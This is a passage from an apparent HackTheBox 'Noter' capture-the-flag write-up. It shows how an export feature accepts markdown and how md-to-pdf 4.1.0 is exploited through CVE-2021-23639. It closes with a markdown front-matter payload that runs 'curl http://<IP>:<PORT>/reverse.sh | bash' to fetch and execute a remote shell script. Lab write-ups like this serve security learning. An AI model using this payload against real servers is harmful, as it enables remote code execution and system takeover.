 ![Export function](/assets/hackthebox/noter/export_function.png)

We're not interested in existing notes, but we can export from external server, let's check what does it do:

```zsh
$ echo 'abrakadabra' > file.txt
$ python3 -m http.server 80
```

And we get error of `invalid file type`, after some test, I found that `markdown` (.md, .markdown) files are accepted.

In source code of app_backup_1638395546.zip we can see that `md-to-pdf.js` version is 4.1.0 and after some google we can find that it is vulnerable to [CVE-2021-23639](https://nvd.nist.gov/vuln/detail/CVE-2021-23639).

![md-to-pdf version](/assets/hackthebox/noter/md_to_pdf_version.png)

### Exploit

We know that .md files are accepted by the application. Let's prepare our payload to exploit that.

test.md:

```md
---js\n((require("child_process")).execSync("curl http://<IP>:<PORT>/reverse.sh | bash"))\n---RCE
```
